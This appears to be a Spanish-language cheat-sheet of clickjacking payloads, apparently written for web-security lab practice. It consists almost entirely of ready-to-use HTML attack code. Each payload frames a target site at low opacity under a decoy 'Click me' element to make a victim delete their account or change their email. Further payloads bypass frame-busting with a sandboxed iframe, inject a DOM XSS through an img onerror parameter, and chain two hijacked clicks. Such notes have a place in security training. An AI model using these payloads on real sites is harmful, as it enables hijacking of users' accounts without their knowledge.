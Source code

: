 -- --
## **Payloads**

- Haciendo que borre su cuenta:
```html
<style>
iframe {
  width: 500px;
  height: 600px;
  opacity: 0.1;
}

div {
  position: absolute;
  top: 500px;
  left: 40px;
}
</style>
<div>Click me</div>
<iframe src="https://URL/my-account"></iframe>
```

- Cambiando email:
```html
<style>
iframe {
  width: 500px;
  height: 600px;
  opacity: 0.1;
}

div {
  position: absolute;
  top: 450px;
  left: 100px;
}
</style>
<div>Click me</div>
<iframe src="https://URL/my-account?email=hacked@hacked.com"></iframe>
```

- Bypasseando script anti frame:
```html
<style>
iframe {
  width: 500px;
  height: 600px;
  opacity: 0.1;
}

div {
  position: absolute;
  top: 450px;
  left: 100px;
}
</style>
<div>Click me</div>
<iframe sandbox="allow-forms" src="https://URL/my-account?email=hacked@hacked.com"></iframe>
```

- Explotando DOM XSS:
```html
<style>
iframe {
  width: 500px;
  height: 1000px;
  opacity: 0.1;
}

div {
  position: absolute;
  top: 800px;
  left: 100px;
}
</style>
<div>Click me</div>
<iframe src="https://URL/feedback?name=<img src=0 onerror=print()>&email=test@test.com&subject=test&message=probando"></iframe>
```

- Explotando Clickjacking en multiples pasos
```html
<style>
iframe {
  width: 500px;
  height: 600px;
  opacity: 0.1;
}

.firstClick{
  position: absolute;
  top: 497px;
  left: 80px;
}

.secondClick{
  position: absolute;
  top: 290px;
  left: 200px;
}

</style>

<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://URL/my-account"></iframe>
```